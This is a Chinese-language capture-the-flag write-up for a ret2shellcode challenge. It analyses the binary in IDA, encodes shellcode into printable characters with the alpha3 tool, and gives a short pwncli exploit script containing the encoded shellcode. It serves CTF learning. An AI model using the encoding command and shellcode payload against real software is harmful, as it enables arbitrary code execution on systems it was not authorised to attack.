运行程序分析，接收一个输入，根据题目名称判断这题应该是 ret2shellcode。

![img](../images/Pasted image 20250112142201.png)

ida 分析

`write`输出提示字符串，然后`read`将输入读取到缓冲区。

![img](../images/Pasted image 20250112142319.png)

如果用户输入长度大于 0 则跳转到`l0c_11AC`，否则跳转到`locret_1254`，正常输入肯定会跳到`l0c_11AC`。

![img](../images/Pasted image 20250112142946.png)

程序跳转到`l0c_11AC`然后将`rbp-4`赋值为 0 ，然后跳转到`loc_123A`。

![img](../images/Pasted image 20250112143059.png)

如果 0 < 输入字符串的长度则跳转`loc_11B8`，否则将执行输入内容，这里就是可以进行 shellcode 的地方了。

这里的代码是将我们输入的内容逐个字节比较是否是可见字符。

![img](../images/Pasted image 20250112143253.png)

这里我们需要通过 alpha3 这个工具将 shellcode 编码为可见字符。

> alpha3： https://github.com/TaQini/alpha3.git

我们可以用工具将上面的 shellcode 编码为可见字符形式。

将 shellcode 编码写入文件后，通过调用 alpha3 工具进行编码。

```
SHELL - 1 lines
python3 ALPHA3.py x64 ascii mixedcase rax --input=shellcode文件 > 输出文件
```

> 注意：alpha3 生成 shellcode 时如果设置`rax`那么跳转 shellcode 时`rax`必须为 shellcode 的地址。设置为其他寄存器同理。

- exp

```
PYTHON - 12 lines
#!/usr/bin/env python3
from pwncli import *
cli_script()

io: tube = gift.io
elf: ELF = gift.elf

shellcode="Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t"
r()
s(shellcode)

ia()
```

